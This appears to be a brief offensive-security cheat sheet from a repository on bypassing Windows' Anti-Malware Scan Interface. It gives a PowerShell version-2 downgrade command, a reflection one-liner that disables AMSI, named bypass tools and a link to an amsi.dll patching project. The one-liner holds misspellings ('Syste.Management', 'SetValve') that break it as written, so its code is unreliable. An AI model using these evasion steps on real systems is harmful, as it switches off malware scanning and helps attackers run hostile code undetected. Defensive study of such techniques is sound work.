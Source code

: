 # Anti-Malware Scanning Interface (AMSI) Evasion

## Powershell Downgrade

#### powershell -Version 2

## Powershell Reflection

#### [Ref].Assembly.GetType('Syste.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValve($null,$true)

## Automation

### Tools: amsi.fail, AmsiTrigger

## Patching amsi.dll

### See a separate file in this repo.

### Resource: https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/main/AmsiBypass.cs
